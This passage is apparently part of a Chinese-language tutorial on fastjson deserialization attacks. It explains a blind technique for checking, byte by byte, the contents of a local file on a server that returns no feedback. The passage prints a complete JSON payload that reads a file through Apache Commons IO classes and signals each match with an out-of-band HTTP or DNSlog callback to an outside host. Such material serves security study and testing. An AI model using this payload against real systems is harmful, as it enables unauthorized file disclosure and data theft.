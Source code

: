[![](assets/1706959415-0c23abec42c22a6113bab5536cbb563a.png)](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/image-20231021010244056.png)

极端场景：有一个接口，用`fastjson`解析了`json`，但不会反馈任何能够作为状态判断的标识，连异常报错的信息都没有。

那么此时该`payload`就可以派上用场了，**如果以上`poc`收到了`dnslog`响应，那么说明字节码比对失败**，也就是第一个字节的`int`值不等于我们填入的那个数字（比如这里的`98`，此时我们就得更改数字继续测试）；如果没收到，说明比对成功，继续测试即可。

### 4.2.3 blackhat2021-getBom() tyskill 师傅改版（几乎适配所有场景）

`payload44`：

```plain
{"abc":{"@type":"java.lang.AutoCloseable","@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"jdk.nashorn.api.scripting.URLReader","url":"file:///C:/Users/whoami/Desktop/testtest.txt"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[98,]}]},"address":{"@type":"java.lang.AutoCloseable","@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"jdk.nashorn.api.scripting.URLReader","url":"http://192.168.161.4:8085/"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"$ref":"$.abc.BOM[0]"}]},"xxx":{"$ref":"$.address.BOM[0]"}}
```

该`payload`是浅蓝师傅的`payload`的改版，主要区别在于这个是`dnslog`或者`http`服务有响应说明字节码比对成功，和浅蓝的那个是反着来的。
